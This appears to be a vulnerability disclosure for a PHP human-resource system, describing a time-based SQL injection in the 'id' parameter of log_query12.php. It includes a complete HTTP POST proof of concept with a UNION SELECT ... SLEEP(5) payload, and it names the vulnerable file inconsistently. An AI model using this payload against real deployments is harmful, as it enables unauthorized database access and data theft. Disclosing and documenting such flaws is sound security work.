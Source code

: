 # Human Resource Integrated System has SQL Injection in log_query12.php

## supplier 

https://code-projects.org/human-resource-integrated-system-in-php-with-source-code/

## Vulnerability file

log_query12.php

## Describe

The `id` parameter in login_query12.php is not properly sanitized or parameterized, making it vulnerable to SQL injection. This vulnerability can be exploited by injecting malicious SQL code to manipulate database queries. An attacker could leverage a timing-based SQL injection method to intentionally delay database responses using functions such as SLEEP().

![image-20250823003858231](image/image-20250823003858231.png)

## POC

```
POST /log_query12.php HTTP/1.1
Host: hris
Content-Length: 108
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://hris
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.234.158/hris/login_attendance2.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

save=1&date=16&id=-1'+union+select+1,1,1,1,1,1,1,1,1,1,1,1,1,sleep(5)--+
```

Send this request, you can observe an additional 5 seconds time delay triggered by the time-based injection.
